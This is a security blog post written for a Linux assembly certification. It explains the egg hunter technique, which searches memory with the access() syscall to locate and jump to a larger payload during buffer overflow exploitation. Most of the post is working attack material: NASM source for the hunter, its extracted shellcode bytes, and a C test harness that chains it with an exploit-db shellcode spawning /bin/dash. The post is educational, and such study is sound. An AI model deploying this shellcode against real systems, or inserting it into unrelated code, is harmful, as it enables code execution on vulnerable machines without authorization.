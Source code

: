 Introduction
------------
What is egg hunter? and why on earth would you need it? This post will answer those questions and discuss [access()](http://man7.org/linux/man-pages/man2/access.2.html) syscall briefly, which is a vital part of the shellcode itself. The post will then conclude by demoing a working egg hunter shellcode. Please note all of the work here is based off of [Skape’s paper](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf).

Egg Hunting
-----------
Egg hunting is a technique used to search the [Virtual Address Space (VAS)](https://en.wikipedia.org/wiki/Virtual_address_space) for pattern referred to by the term egg which usually marks the start of our desired payload if you will. Now you would probably be asking yourself what if we hit an unallocated memory while searching for that pattern? Well, the answer is the process will `SIGSEGV` leading to a crash. To prevent this kind of behavior we will abuse [access()](http://man7.org/linux/man-pages/man2/access.2.html) syscall to hunt for our egg without crashing (more on that later). A good example of egg hunter use case is buffer overflows with limited buffer size that won’t allow for large payloads such as bind or reverse shell, in other words we use egg hunter as stager to capture and execute larger payloads.

access()
--------
`access()` syscall is used to check what permissions the calling process has to a file referred to by `pathname`, and it consist of two arguments as shown below

```C
int access(const char *pathname, int mode);
```

Two reasons you’d want to use `access()` syscall, the first being it doesn’t have lots of arguments thus less registers to initialize, which translate to smaller size. The second reason is we’re looking for function that doesn’t write to the pointer, cause that will defeat the purpose. We’ll use `pathname` pointer to preform address validation by observing the `ZF` flag, when the pointer hits an unallocated memory it will return `EFAULT`, meaning hey this [memory page](https://en.wikipedia.org/wiki/Page_(computer_memory)) is bad try the next one. Let’s identify `access()` id `EAX`.

```sh
root@falafel:~# cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep access
#define __NR_access      33
#define __NR_faccessat  307
root@falafel:~#
```

Also its worth noting that we’ll need to repeat our egg twice (8 bytes) to avoid the collision of the egg hunter with itself, so the egg hunter would have to have two matches before it jumps to the payload.

Final Shellcode
---------------
Now that we know what egg hunter and `access()` are all about, let’s write the shellcode and then test it!

```nasm
global _start
 
section .text
 
_start:

    ; 
    ; access(2) code block
    ;
    cld                   ; make sure direction flag is NOT set
    xor edx,edx           ; initialize EDX register

nxt_page:                 ; increment page
    or dx,0xfff           ; first page alignment

nxt_addr:
    inc edx               ; increment address
    lea ebx,[edx+0x4]     ; load pointer with 8-bytes egg hunter
    push byte 0x21        ; #define __NR_access 33
    pop eax               ; load EAX
    int 0x80              ; ping kernel!
    cmp al,0xf2           ; check for EFAULT
    jz nxt_page           ; if yes go back to nxt_page
    mov eax,0x776f6f74    ; egg = woot
    mov edi,edx           ; save pointer address to EDI
    scasd                 ; compare EAX[woot] with EDI[????] first 4 bytes  
    jnz nxt_addr          ; if no go back to nxt_addr
    scasd                 ; compare EAX[woot] with EDI+4[????] second 4 bytes
    jnz nxt_addr          ; if no go back to nxt_addr
    jmp edi               ; go to the start of our shellcode
```

Let’s compile and dump shellcode!

```sh
falafel@ubuntu:~$ nasm -f elf32 -o EggHunter.o EggHunter.nasm 
falafel@ubuntu:~$ ld -z execstack -o EggHunter EggHunter.o
falafel@ubuntu:~$ objdump -d ./EggHunter|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xfc\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x74\x6f\x6f\x77\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7"
falafel@ubuntu:~$ 
```

Here’s the final egg hunter shellcode coupled with `/bin/dash` from [exploit-db](https://www.exploit-db.com/exploits/43476).

```c
#include<stdio.h>
#include<string.h>

unsigned char egghunter[]= \
"\xfc\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x74\x6f\x6f\x77\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";

unsigned char shellcode[] = \
/** wootwoot **/
"\x74\x6f\x6f\x77\x74\x6f\x6f\x77"
/** shellcode from https://www.exploit-db.com/exploits/43476/ **/
"\x31\xc0\x50\x68\x64\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";


int main(){

     printf("Egghunter Length:  %d\n", strlen(egghunter));
     printf("Shellcode Length:  %d\n", strlen(shellcode));


     (*(void  (*)()) egghunter)();
     return 0;
}
```

Demo time!

[![Egg Hunter Demo](https://github.com/ihack4falafel/ihack4falafel.github.io/blob/master/assets/images/chmod.png)](https://player.vimeo.com/video/251591647?dnt=1&app_id=122963 "Click to Watch!")

Closing Thoughts
----------------
I don’t know about you but egg hunter in its entirety fascinates me and I’m glad I learned how to write one! Thank you Skape for your awesome work! Feel free to contact me for questions via twitter [@ihack4falafel](https://twitter.com/ihack4falafel) . All of the code is available on on my github as shown in the link below.

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1115

Github Repo: [https://github.com/ihack4falafel/SLAE32/tree/master/Assignment%203](https://github.com/ihack4falafel/SLAE32/tree/master/Assignment%203)
